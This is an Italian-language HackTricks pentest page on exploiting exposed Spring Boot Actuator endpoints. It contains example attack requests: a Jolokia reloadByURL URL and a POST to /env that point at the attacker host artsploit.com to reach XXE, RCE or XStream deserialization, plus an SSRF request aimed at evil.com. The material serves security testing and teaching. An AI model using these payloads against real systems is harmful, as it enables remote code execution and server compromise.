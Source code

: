 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**Da** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Sfruttare i Spring Boot Actuators

**Controlla il post originale da** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Punti Chiave:**

- I Spring Boot Actuators registrano endpoint come `/health`, `/trace`, `/beans`, `/env`, ecc. Nelle versioni da 1 a 1.4, questi endpoint sono accessibili senza autenticazione. Dalla versione 1.5 in poi, solo `/health` e `/info` sono non sensibili per impostazione predefinita, ma gli sviluppatori spesso disabilitano questa sicurezza.
- Alcuni endpoint degli Actuator possono esporre dati sensibili o consentire azioni dannose:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, e `/heapdump`.
- In Spring Boot 1.x, gli actuator sono registrati sotto l'URL radice, mentre in 2.x, sono sotto il percorso base `/actuator/`.

### **Tecniche di Sfruttamento:**

1. **Esecuzione di Codice Remoto tramite '/jolokia'**:
- L'endpoint dell'actuator `/jolokia` espone la Jolokia Library, che consente l'accesso HTTP agli MBeans.
- L'azione `reloadByURL` può essere sfruttata per ricaricare le configurazioni di logging da un URL esterno, il che può portare a XXE cieco o Esecuzione di Codice Remoto tramite configurazioni XML create ad hoc.
- URL di esempio per lo sfruttamento: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modifica della Configurazione tramite '/env'**:

- Se sono presenti le Spring Cloud Libraries, l'endpoint `/env` consente la modifica delle proprietà ambientali.
- Le proprietà possono essere manipolate per sfruttare vulnerabilità, come la vulnerabilità di deserializzazione XStream nel Eureka serviceURL.
- Richiesta POST di esempio per lo sfruttamento:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Altre Impostazioni Utili**:
- Proprietà come `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, e `spring.datasource.tomcat.max-active` possono essere manipolate per vari sfruttamenti, come SQL injection o modifica delle stringhe di connessione al database.

### **Informazioni Aggiuntive:**

- Un elenco completo degli actuator predefiniti può essere trovato [qui](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- L'endpoint `/env` in Spring Boot 2.x utilizza il formato JSON per la modifica delle proprietà, ma il concetto generale rimane lo stesso.

### **Argomenti Correlati:**

1.  **Env + H2 RCE**:
- I dettagli su come sfruttare la combinazione dell'endpoint `/env` e del database H2 possono essere trovati [qui](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2.  **SSRF su Spring Boot tramite Interpretazione Errata del Nome del Percorso**:

- La gestione dei parametri di matrice (`;`) nel framework Spring negli URL HTTP può essere sfruttata per Server-Side Request Forgery (SSRF).
- Richiesta di esempio per lo sfruttamento:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

{{#include ../../banners/hacktricks-training.md}}
